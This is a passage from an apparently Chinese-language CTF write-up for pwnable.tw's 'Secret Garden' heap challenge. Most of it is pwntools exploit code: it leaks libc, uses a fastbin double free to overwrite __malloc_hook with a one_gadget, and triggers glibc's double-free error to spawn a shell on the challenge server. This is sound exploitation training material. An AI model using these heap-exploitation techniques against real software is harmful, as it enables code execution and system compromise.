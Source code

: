 ```python
libc_addr = uu64(io.recv(6))-0x3c3b0a
malloc_hook = libc_addr + libc.symbols['__malloc_hook']

fake_chunk = malloc_hook-0x23
add(104,'1','1')
add(104,'1','1')
rm(4);rm(5);rm(4)
add(104,p64(fake_chunk),'1')
add(104,'1','1')
add(104,'1','1')
add(104,'a'*19+p64(0xdeadbeef),'1')
debug(0xc65)
add(10,'1','1')
io.interactive()
```

发现执行到控制流劫持时，没有任何一个one_gadget的约束可以满足

![image](https://xuanxuanblingbling.github.io/assets/pic/garden/onegadget.png)

最终参考其他的wp，通过两次free同一个chunk触发doublefree的error，这个error字符串的打印最终用到malloc，这个调用malloc的途径满足第三个one_gadget的约束。不过在本地尝试一直不成功，而且甚至两次free都无法控制流劫持。最终直接攻击远程成功，不知为何。

### 最终exp

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
libc   = ELF("./libc_64.so.6")
io = remote("chall.pwnable.tw",10203) 
one_gadget = 0xef6c4

sla     = lambda delim,data     :  io.sendlineafter(delim,data)
add     = lambda len,name,color :  (sla("choice : ","1"),sla("name :",str(len)),sla("flower :",name),sla("flower :",color))
show    = lambda                :  (sla("choice : ","2"))
rm      = lambda num            :  (sla("choice : ","3"),sla("garden:",str(num)))

# use unsorted bin to leak libc
add(500,"1","1")
add(40,"1","1")
add(10,"1","1")
rm(1);rm(0)
add(500,"","1")
show();io.recvuntil("flower[3] :")
libc_addr = u64(io.recv(6)+'\x00\x00')-0x3c3b0a
malloc_hook = libc_addr + libc.symbols['__malloc_hook']

# use fastbin double free attack to modify malloc_hook, the fake chunk addr is found by dynamic debug
fake_chunk = malloc_hook-0x23
add(104,'1','1')
add(104,'1','1')
rm(4);rm(5);rm(4)
add(104,p64(fake_chunk),'1')
add(104,'1','1')
add(104,'1','1')
add(104,'a'*19+p64(libc_addr+one_gadget),'1')

# call malloc by using double free error to satisfy one_gadget constraints
rm(8);rm(8)
io.interactive()
```